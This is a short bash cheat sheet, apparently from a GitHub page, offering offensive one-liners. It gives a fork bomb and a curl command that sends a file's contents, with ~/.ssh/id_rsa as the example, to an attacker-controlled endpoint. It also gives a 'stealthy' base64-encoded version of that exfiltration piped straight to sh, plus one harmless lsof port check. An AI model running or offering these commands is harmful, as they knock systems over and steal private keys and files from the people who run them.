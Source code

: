 
### Fork Bomb

```bash
:(){ :|:& };:
```

### Check what is running on local port 80

```bash
sudo lsof -i -n -P | grep ":80"
```

### Send file content to controlled endpoint

```bash
curl https://beeceptorinstance -d "$(cat ~/file)" # ex: ~/.ssh/id_rsa
```

You can also add the ip address with :  `"$(curl ifconfig.me)"`

#### Stealthy mode

```bash
echo Y3VybCBodHRwczovL250Znkuc2gvamRsc2hka3Nrc2JiZGt6amQgLWQgIiQoY2F0IH4vZmlsZSkiIA== | base64 -d | sh
```
